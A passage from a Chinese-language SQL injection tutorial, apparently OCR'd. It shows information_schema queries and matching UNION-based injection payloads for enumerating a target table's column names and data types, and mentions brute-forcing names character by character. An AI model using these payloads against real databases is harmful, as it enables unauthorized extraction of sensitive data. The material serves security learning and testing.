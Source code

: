 如果目标表名未知，可以逐步爆破其长度和字符内容。

------

## **3. 获取某个表的列信息**

### 目标：

枚举目标表的列名，用于后续的敏感数据提取。

### 查询：

```sql
SELECT column_name FROM information_schema.columns WHERE table_name = 'target_table';
```

### SQL 注入示例：

攻击者可能构造如下注入语句：

```sql
' UNION SELECT column_name, null FROM information_schema.columns WHERE table_name = 'target_table' -- 
```

如果目标列名未知，也可以逐步爆破长度和字符内容。

------

## **4. 获取列类型等其他信息**

### 目标：

了解目标列的类型、约束等详细信息，为后续攻击（如类型转换或 Bypass）做准备。

### 查询：

```sql
SELECT column_name, data_type FROM information_schema.columns WHERE table_name = 'target_table';
```

### SQL 注入示例：

```sql
' UNION SELECT column_name, data_type FROM information_schema.columns WHERE table_name = 'target_table' -- 
```

------

## **5. 获取表和列的组合信息**

### 目标：
